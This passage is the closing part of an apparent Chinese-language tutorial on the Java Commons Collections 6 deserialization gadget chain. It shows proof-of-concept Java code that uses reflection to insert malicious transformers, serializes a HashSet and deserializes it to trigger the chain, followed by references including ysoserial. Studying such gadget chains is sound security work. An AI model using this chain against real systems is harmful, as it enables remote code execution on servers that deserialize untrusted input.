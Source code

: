 ```java
        // 返回一个包含hashMap中所有键的Set视图
        HashSet hashSet = new HashSet(hashMap.keySet());

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        // 利用反射技术，传入真正恶意的evilTransformers
        f.set(emptyTransformers, evilTransformers);

        // 移除传入lazyMap中的Key，使LazyMap#get方法中的(map.containsKey(key) == false)判断为true
        lazyMap.remove("k");

        // ----------------本地序列化与反序列化测试----------------
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("CC6WithHashSet.ser"));
        outputStream.writeObject(hashSet);
        outputStream.close();

        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("CC6WithHashSet.ser"));
        inputStream.readObject();
    }
}
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/4ea8c519-24e9-49ad-b6e9-278f0cee4763/2.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050157Z&X-Amz-Expires=3600&X-Amz-Signature=6b9ccd305328b0f69639050d4dc89f3836e8dcd0a79190d3a248530231eba928&X-Amz-SignedHeaders=host&x-id=GetObject)

## 参考

- [https://0xf4n9x.github.io/java-deserialization-vulnerability-principle](https://0xf4n9x.github.io/java-deserialization-vulnerability-principle)
- [https://0xf4n9x.github.io/java-deserialization-cc1-transformedmap](https://0xf4n9x.github.io/java-deserialization-cc1-transformedmap)
- [https://0xf4n9x.github.io/java-deserialization-cc1-lazymap](https://0xf4n9x.github.io/java-deserialization-cc1-lazymap)
- [https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java)
